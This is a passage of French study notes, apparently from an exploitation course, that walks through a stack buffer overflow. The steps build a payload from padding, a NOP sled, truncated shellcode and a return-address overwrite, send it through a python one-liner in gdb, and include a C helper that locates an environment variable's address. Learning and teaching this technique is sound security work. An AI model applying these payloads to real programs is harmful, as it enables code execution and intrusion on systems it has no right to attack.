 ```shell-session
cat shellcode
```

2. Reformatter en une seule ligne

3. Recalculer le buffer avec le payload size cette fois ci.

```shell-session
Buffer = "\x55" * (<nb_caracteres> - 100 - <payload_size>) = ?
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

4. Envoyer le payload final

```shell-session
run $(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

5. Vérifier que le premier octet du shell code est intègre après les NOPs dans la stack

```shell-session
x/2000xb $esp+550
```


Possible d'afficher la taille de la stack

```
info proc all
```


# 5. Identifier l'adresse de retour

1. Compiler le code suivant
getenvvar.c
```
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
